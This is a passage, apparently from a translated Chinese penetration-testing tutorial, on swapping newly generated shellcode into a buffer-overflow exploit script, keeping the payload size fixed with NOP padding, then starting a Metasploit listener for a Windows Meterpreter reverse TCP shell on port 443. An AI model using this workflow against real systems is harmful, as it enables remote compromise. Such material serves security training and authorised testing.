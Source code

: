 请注意我们已经删除了第一行，`buf = ""`。

现在我们需要非常小心：在 Python 脚本中提到他们的有效载荷大小为 380 字节，其余部分已填充 nops 以调整传递。我们必须确保相同，所以如果有 10 个 nops 和 380 字节的代码，我们假设有 390 字节的传递，所以如果我们生成的 shell 代码是 385 字节，我们只会添加 5 个 nops 以保持我们的缓冲区恒定。在目前的情况下，新的有效载荷大小也是 380，所以我们不需要处理 NOP。现在我们将用我们创建的新 shell 代码替换原始 shell 代码。因此，用新生成的 shell 代码替换以下突出显示的文本：

![如何做...](img/image_04_047.jpg)

请注意，我们已经在`/x90` NOP 代码之后替换了整个 shell 代码。

1.  一旦代码被替换，保存并关闭文件。启动 Metasploit，并输入以下命令，在 Kali 机器上的端口`443`上启动监听器，就像我们创建有效载荷时提到的那样：

```
      msfconsole
      use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lhost <Kali IP address>
      set lport 443
      exploit

```
